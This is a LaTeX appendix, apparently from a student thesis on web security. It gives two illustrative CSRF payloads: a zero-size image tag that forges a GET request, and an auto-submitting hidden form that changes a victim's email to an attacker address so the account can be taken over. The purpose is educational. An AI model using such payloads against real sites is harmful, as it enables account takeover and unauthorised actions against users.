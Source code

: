 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
\chapter{Examples of malicious HTML code} \label{app:csrf_attack}

\begin{figure}[h!t]
  \begin{verbatim}
<p>Take a look at my picture:<br />
<img src="http://vulnerable_site.com/?p=interests&action=remove&id=12" 
    width=0 height=0 /> <!-- Invisible GET request-->
<img src="http://real_image.png" alt="My image" />
  \end{verbatim}
  \caption{%
  Example of CSRF attack forging a GET HTTP request. Browser will execute the following GET request:\\
  ``GET http://vulnerable\_site.com/?p=interests\&action=remove\&id=12''\\
  This request will be totally invisible for the victim and this will remove one of his or her interest.
  }
  \label{figure:get_request}
\end{figure}

\begin{figure}[h!t]
  \begin{verbatim}
<form name="hackForm" method="POST" 
    action="http://vulnerable_site.com/?p=account&action=email">
        <input type="hidden" name="email" value="mail@attacker.com">
</form>
<script type="text/javascript">
    document.hackForm.submit(); // submit form
</script>
  \end{verbatim}
  \caption{%
  Example of a CSRF attack forging a POST HTTP request. Execution of JavaScript is needed.
  This request will not be invisible for the victim but it will still forge a request to change 
  the email of the victim in the vulnerable website. If the attacker is faster than the victim, he 
  or she can retrieve the account with the feature ``Retrieve my password''.
  }
  \label{figure:post_request}
\end{figure}
  

\chapter{Web application's screenshots} \label{app:screenshots}

\begin{figure}[ht!]
  \begin{center}
    \caption{Login page}
    \label{figure:login}
  \end{center}
\end{figure}
\end{document}

